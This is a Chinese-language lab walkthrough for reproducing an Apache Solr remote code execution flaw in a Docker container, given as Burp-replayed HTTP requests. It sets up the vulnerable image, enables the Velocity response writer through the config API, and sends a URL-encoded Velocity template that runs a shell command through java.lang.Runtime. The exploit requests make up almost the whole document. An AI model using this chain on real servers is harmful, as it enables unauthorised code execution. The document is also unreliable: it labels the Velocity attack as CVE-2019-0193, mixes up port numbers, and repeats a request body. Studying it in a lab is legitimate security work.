 # Apache Solr CVE-2019-0193 环境搭建漏洞复现

 docker pull scxiaotan2/apache-solr:cve-2019-0193  # 拉取镜像
 
 docker run -it scxiaotan2/apache-solr:cve-2019-0193 /bin/bash #启动shell

./start.sh #启动根目录下的服务

netstat -tlnp #可以看到1983端口启用了


# Solr CVE-2019-0193 漏洞复现

使用BurpSuite 对数据包重放

第一步：

GET /solr/te1/config HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

第二步：

post /solr/te1/config HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

Content-Length: 259




{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }

}


第三步：

post /solr/te1/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end  HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

Content-Length: 259




{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
